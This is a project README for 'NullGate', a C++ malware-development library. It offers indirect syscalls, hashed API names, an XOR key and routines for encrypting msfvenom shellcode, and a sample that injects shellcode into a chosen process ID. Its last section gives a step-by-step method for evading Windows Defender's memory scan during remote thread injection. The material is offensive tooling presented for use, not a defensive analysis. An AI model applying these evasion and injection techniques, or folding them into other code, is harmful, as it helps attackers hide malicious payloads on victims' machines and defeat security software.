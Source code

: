 # NullGate
This project implements a comfortable and modern way to use the NTAPI functions using indirect syscalls, coupled with the [FreshyCalls](https://github.com/crummie5/FreshyCalls) method with a little twist for dynamic syscall number retrieval.
It also uses a technique that I haven't seen being metioned to bypass windows defender's memory scanning. It also implements a classic PoC process injector.

## Demo
![Demonstration of the sample](./assets/demo.gif)

## Usage

The usage is pretty straight forward, here is a snippet demonstrating the main functionality:
```cpp
nullgate::syscalls syscalls;
typedef NTSTATUS NTAPI NtAllocateVirtualMemory(
    _In_ HANDLE ProcessHandle,
    _Inout_ _At_(*BaseAddress,
                 _Readable_bytes_(*RegionSize) _Writable_bytes_(*RegionSize)
                     _Post_readable_byte_size_(*RegionSize)) PVOID *BaseAddress,
    _In_ ULONG_PTR ZeroBits, _Inout_ PSIZE_T RegionSize,
    _In_ ULONG AllocationType, _In_ ULONG PageProtection);

auto status = syscalls.SCall<NtAllocateVirtualMemory>(
      nullgate::obfuscation::fnv1Const("NtAllocateVirtualMemory"), processHandle,
      &buf, 0, &regionSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
There's builtin typesafety. You just need to provide the definiton of the nt function that you want to call! You can easily get that from [ntdoc](https://ntdoc.m417z.com/). This is the recommended way to use the lib.<br><br>
For people who don't like c++ templating black magic or something the previous interface is still available:
```cpp
auto status = syscalls.Call(nullgate::obfuscation::fnv1Const("NtAllocateVirtualMemory"),
                         processHandle, (PVOID)&buf, (ULONG_PTR)0, &regionSize,
                         (ULONG)(MEM_RESERVE | MEM_COMMIT), (ULONG)PAGE_EXECUTE_READWRITE);
```
Using this interface you <b>need</b> to cast the arguments to the right type, not doing this may cause [problems](https://github.com/0xsch1zo/NullGate/issues/2). <br><br>
The `fnv1Const` method brings the joys of modern C++ to the maldev world. It is a `consteval` function, so it is guaranteed that it will get evaluated at compile time, replacing the readable function name with a fnv1 hash.<br><br>
There is also a runtime equivalent called `fnv1Runtime` but of course it doesn't add the benefit of having our function names obfuscated. It is used by the implementation to check which function inside of ntdll to get the syscall number of.<br><br>
There are routines that can xor encrypt/decrypt(multibyte key) and base64 encode/decode your payload or some message:
```cpp
if (!NT_SUCCESS(status))
    throw std::runtime_error(
        nullgate::obfuscation::xorDecode("BQkEI1c0dkJ4LU4naSJhGCcIFSNWej5YeD5DNmkzM"
                               "x8lAwI8H3o3VzEmTjdpNCgELlxR") +
        std::to_string(status));
```
The key for now is `FfqO3ZQ6XJ+SICAp`. 
A hasher is also provided, after building the project, the binary will be accessible at `hasher-build/`(Before 1.1.2 it's `<build_dir>/_deps/nullgate-build/src/hasher`). 
On windows it will probably be nested beneath a bunch of directories like `Release`, but it will be somewhere there.
Just pipe something into it and it will spit out a base64 encoded and xored string.<br><br>

To ease the encryption of shellcode a special functon is provided:
```cpp
auto decryptedShellcode =
      nullgate::obfuscation::hex2bin(nullgate::obfuscation::xorDecode(encryptedShellcode))
```
The `hex2bin` function just turns a hex string into a vector of bytes, thanks to this you can just pipe the shellcode from msfvenom with the `-f hex` flag straight into the hasher and not have worry about the special characters.

### Adding nullgate to your project
CMake FetchContent is supported. Here is an example of a simple CMakeLists.txt:

```cmake
cmake_minimum_required(VERSION 3.25)

include(FetchContent)

FetchContent_Declare(nullgate
    GIT_REPOSITORY https://github.com/0xsch1zo/NullGate
    GIT_TAG 1.1.3
)

FetchContent_MakeAvailable(nullgate)

project(test)

add_executable(test
    main.cpp
)

target_link_libraries(test
    PRIVATE nullgate
)
```
The linking is done statically so you don't have to worry about symbols being visible.
## Build
To build the sample use `-DNULLGATE_BUILD_SAMPLE=ON`. 
If you built nullgate directly it will be accessible at `<build_dir>/sample.exe`, if you built it as a dependency at `<build_dir>/_deps/nullgate-build/sample.exe`. 
On windows because the build destinations are weird, it will probably be at the same base directories of locations of samples but probably nested a bunch more.
It takes a PID that you want to inject shellcode into as an argument.
> [!WARNING]
> If you are using linux you need to have the mingw crosscompiler installed. On Arch for example you can do `pacman -S mingw-w64-gcc`. Then use the `-DNULLGATE_CROSSCOMPILE=ON` option to set mingw as the default compiler for the relevant parts of the program.
```
git clone https://github.com/0xsch1zo/NullGate
cd NullGate
cmake . -B build -DNULLGATE_BUILD_SAMPLE=ON
cmake --build build/
```

## Windows defender memory scan bypass
The core of the issue is that when we call `NtCreateRemoteThreadEx` or `NtCreateProcess`, a memory scan gets triggered and our signatured as hell msfvenom payload gets detected.

### How to bypass that?
A known solution is to first when calling `NtAllocateVirtualMemory` set the page permissions as `PAGE_NOACCESS`, then create the thread in a suspended state. 
When windows defender will scan the memory of our process it will fail to do that.
We can then resume the execution of our thread with `NtResumeThread`.
This works, but what if a more competent security solution is being used? What would it do? 
It would of course just use `VirtualProtect` to change the permissions of our page and detect msfvenom. 
To bypass that I changed the strategy a bit. Instead of setting the page as `PAGE_NOACCESS`, during our first write to the memory of the process we can just put some junk data into the process(Yes it is required, or I'm just too stupid to find a way to get it working wihout this). 
Then we create a thread in suspended state. 
After that we write to the process our desired shellcode and finally we resume the thread using `NtResumeThread`. 
With this technique we don't have to worry about our memory being accessed after the call to `NtCreateThreadEx` because there is nothing in there. 
Only after the fact the decrypted shellcode is written and the execution is resumed.

## Credits:
- To [@ElephantSe4l](https://github.com/ElephantSe4l) and [@MarioBartolome](https://github.com/MarioBartolome) for a great method of dynamic syscall number retrieval and generally the whole project from which I've taken great inspiration of of.
- To [@cr-0w](https://github.com/cr-0w) for the amazing [blog post](https://www.crow.rip/crows-nest/mal/dev/inject/syscalls/indirect-syscalls) and [video](https://www.youtube.com/watch?v=-M2_mZg_2Ew) discussing direct and indirect syscalls.
- To [bordergate](https://www.bordergate.co.uk/) for the [article](https://www.bordergate.co.uk/windows-defender-memory-scanning-evasion/) that describes the initial method of bypass.

